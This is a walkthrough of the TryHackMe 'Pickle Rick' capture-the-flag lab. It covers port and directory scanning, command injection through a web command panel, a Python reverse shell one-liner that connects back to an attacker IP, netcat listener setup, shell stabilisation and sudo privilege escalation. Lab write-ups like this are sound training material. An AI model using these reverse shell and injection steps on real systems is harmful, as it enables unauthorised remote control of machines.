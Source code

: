 ```yaml
---
title: TryHackMe Pickle Rick
date: 2024-03-09 00:00:00 +0800
categories: [TryHackMe]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg
---
```

A Rick and Morty CTF. Help turn Rick back into a human! Know basic network service exploitation and linux command line.

## **Reconnaissance**

```bash
nmap -sC -sV -p- $TARGET_IP --open
```
`-sV`: Enables version detection, which attempts to determine the version of services running on open ports.

`-sC`: Enables default script scanning, executing a set of scripts to discover additional information and potential vulnerabilities.

`-p-`: Scans all 65,535 TCP ports, allowing for thorough port enumeration.

`TARGET_IP`: Specifies the target IP address.

`--open`: Shows only open ports in the output, filtering out closed and filtered ports.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 02:33 EST
Nmap scan report for 10.10.22.145
Host is up (0.31s latency).
Not shown: 65531 closed tcp ports (reset), 2 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a4:5b:39:c3:e5:48:9d:dd:d1:61:8a:33:57:10:2b:82 (RSA)
|   256 a4:d4:00:71:84:6c:ff:08:3d:d5:b0:b6:b9:04:7a:9b (ECDSA)
|_  256 c6:0a:68:60:ad:2b:ae:88:d0:3d:4c:a6:1c:99:70:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Based on the Nmap scan results, the target system has two open ports with the following services.
- Port 22/tcp: OpenSSH 7.2p2 running on Ubuntu Linux.
- Port 80/tcp: Apache HTTP Server 2.4.18 running on Ubuntu.

## **Insights**
---
- 80 HTTP
    - Web server is running, we can try accessing that.
	- There is a public facing website with an Apache HTTP Server with a `version 2.4.18` running on `Ubuntu`

- 22 SSH
    - We need some credentials to access this and bruteforcing can take a really long time before the credentials can be cracked. Hence, this is the least of our priorities for pentesting.

## **Enumeration**
---

### 80 HTTP

Before anything else, let us first check how the website looks like.

![Desktop View](/assets/images/pickle-rick/webpage.png){: width="972" height="589" }

Inspecting the source code gave us something helpful!

![Desktop View](/assets/images/pickle-rick/page-source.png){: width="972" height="589" }
> Username: R1ckRul3s
{: .prompt-tip }
Now let us scan what other directories this website can give using **`gobuster`**

```bash
gobuster dir -u $TARGET_IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t20
```
**`-w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`**: Specifies the wordlist (dictionary) file to use for directory and file names.

**`-t 20`**: Sets the number of concurrent threads to 30, which means it will perform 30 requests simultaneously.

```text
/assets               (Status: 301) [Size: 313] [--> http://10.10.18.137/assets/]
/server-status        (Status: 403) [Size: 300]
```
Looks like we have some interesting directories here.

![Desktop View](/assets/images/pickle-rick/assets-page.png){: width="972" height="589" }

The `/assets ` can be significant as it might allow users to execute the uploaded file on the server. Or maybe what's interesting is that we have a `portal.jpg`which tell us there could be some sort of login form especially we got some username.

![Desktop View](/assets/images/pickle-rick/server-stats.png){: width="972" height="589" }

The `/server-status` seems to be inaccessible

How about `FILE Busting`?

```bash
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30
```

```text
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
```
In this web server enumeration, two interesting endpoints stand out for further exploration `/robots.txt` and `/login.php`. 

![Desktop View](/assets/images/pickle-rick/robots.png){: width="972" height="589" }

`/robots.txt` file is often used by website administrators to give instructions to web crawlers and bots about which pages or directories they should or shouldn't access.

![Desktop View](/assets/images/pickle-rick/login.png){: width="972" height="589" }

`/login.php` endpoint appears to be a login page that we can use to possibly login using credentials we have found from robots.txt and source code.


## **Gaining an Initial Foothold**

Upon logging in, it looks like we can execute some linux command on the command panel. You can try entering all the linux commands you like and see if it is working. This is called `Command injection`, a security vulnerability that occurs when an attacker is able to inject and execute arbitrary commands or code within an application's system command execution function. 

This vulnerability typically arises due to insufficient input validation or improper handling of user-controlled data by the application.

See <https://owasp.org/www-community/attacks/Command_Injection>

It looks like the `cat` Linux command is not functioning. Maybe try using other alternatives that has a similar function. I tried searching for an alternative. See <https://linuxhandbook.com/view-file-linux/>


![Desktop View](/assets/images/pickle-rick/first.png){: width="972" height="589" }

> Do not forget to find first ingredient
{: .prompt-danger }

Alternatively, we are also able to get a reverse shell from the command panel to get a more robust control over the target machine. But first, let’s us check if there is a python binary installed on the system.

```bash
which python
or
which python3
```
![Desktop View](/assets/images/pickle-rick/python3.png){: width="972" height="589" }

As we can see python3 is installed, which means we can be able to get a python reverse shell. On the command panel, we can enter:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
> Do not forget to change the IP and port
{: .prompt-warning }

Before entering the command on the panel, setup a netcat listener to catch a reverse-shell 

```bash
nc -lnvp <PORT>
```

Upon entering, you should catch a reverse shell by now from the netcat listener we have established earlier.

![Desktop View](/assets/images/pickle-rick/revshell.png){: width="972" height="589" }

This is a dumb shell and we have to stabilise it to have a more beautiful and functional shell.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear -lsaht --color=auto'

Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
![Desktop View](/assets/images/rootme/stable-shell.png){: width="972" height="589" }

Thanks to S1REN! <https://sirensecurity.io/blog/break-out-get-that-tty/>

> Do not forget to find the second ingredient
{: .prompt-warning }



## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

We found that the permissions granted to the user `www-data` on the system has `(ALL) NOPASSWD: ALL` which means that the user `www-data` is allowed to run any command `(ALL)` with `sudo` privileges without being prompted for a password `(NOPASSWD)`.

Technically, this means that `www-data` can execute any command with elevated privileges without needing to enter a password, just like the `root user`.

![Desktop View](/assets/images/pickle-rick/def-priv.png){: width="972" height="589" }

> Do not forget to find the FINAL INGREDIENT
{: .prompt-danger }

## TAKE AWAY CONCEPTS
- Try using alternative linux commands
- Try file busting to find possible directories.
- Always check the sudo privilege before attempting for privilege escalation
- Try finding a vulnerability on the web application first before bruteforcing SSH.